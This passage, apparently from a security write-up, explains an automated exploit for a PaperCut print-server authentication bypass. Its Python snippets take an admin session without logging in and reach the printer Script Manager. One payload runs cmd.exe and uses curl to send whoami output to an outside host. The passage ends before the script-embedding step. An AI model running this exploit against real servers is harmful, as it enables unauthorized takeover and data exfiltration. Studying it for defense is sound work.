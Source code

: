 
### understanding automated exploit 

The automated exploit script that we use performs the same steps as our manual exploitation. The key steps and the associated code are explained below.

**Performing the Authentication Bypass**

The first part of the script performs the authentication bypass by using the Python `requests` library to navigate to the vulnerable **SetupCompleted** page:

```python
def get_session_id(base_url): 
	s = requests.Session() 
	r = s.get(f'{base_url}/app?service=page/SetupCompleted', verify=False)
```

**Retrieving an Admin Session**

Once the page is loaded, the code performs a `POST` request to the specified target to recover an Admin session token (`JSESSIONID`):

```python
headers = {'Origin': f'{base_url}'} 
data = { 'service': 'direct/1/SetupCompleted/$Form', 'sp': 'S0', 'Form0': '$Hidden,analyticsEnabled,$Submit', '$Hidden': 'true', '$Submit': 'Login' } 
r = s.post(f'{base_url}/app', data=data, headers=headers, verify=False) 
if r.status_code == 200 and b'papercut' in r.content and 'JSESSIONID' in r.headers.get('Set-Cookie', ''):
```

**Navigating to the Printer Script Manager**

Using the active session, the exploit performs a series of HTTP `GET` requests to navigate to the printer's Script Manager. By default, the first printer in the list is selected:

```python
def execute(base_url, session, command): 
	print('[*] Prepparing to execute...') 
	postback = "java.lang.Runtime.getRuntime().exec('cmd.exe /C \"for /F \"usebackq delims=\" %A in (`whoami`) do curl http://10.0.40.83:8081/%A\"');" 
	headers = {'Origin': f'{base_url}'} 
	data = { 'service': 'page/PrinterList' } 
	r = session.get(f'{base_url}/app?service=page/PrinterList', 
	data=data, headers=headers, verify=False) 
	data = { 'service': 'direct/1/PrinterList/selectPrinter', 'sp': 'l1001' } 
	r = session.get(f'{base_url}/app?service=direct/1/PrinterList/selectPrinter&sp=l1001', data=data, headers=headers, verify=False) 
	data = { 'service': 'direct/1/PrinterDetails/printerOptionsTab.tab', 'sp': '4' } r = session.get(f'{base_url}/app', 
	data=data, headers=headers, verify=False)
```

**Embedding the Code Execution**

In order to execute the provided command, the exploit has to update and execute the script. This has to be done using a multi-part form submission, as shown below:

